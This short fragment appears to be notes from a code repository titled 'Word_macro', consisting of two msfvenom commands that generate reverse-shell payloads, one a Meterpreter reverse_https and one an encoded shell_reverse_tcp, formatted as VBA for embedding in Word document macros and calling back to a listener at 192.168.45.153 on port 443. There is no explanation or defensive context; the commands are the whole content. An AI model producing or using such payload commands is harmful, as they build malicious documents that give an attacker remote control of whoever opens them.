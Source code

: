 # Word_macro
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.45.153 LPORT=443 EXITFUNC=thread -f vbapplication
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.153 LPORT=443 -e x64/shikata_ga_nai -f vbapplication
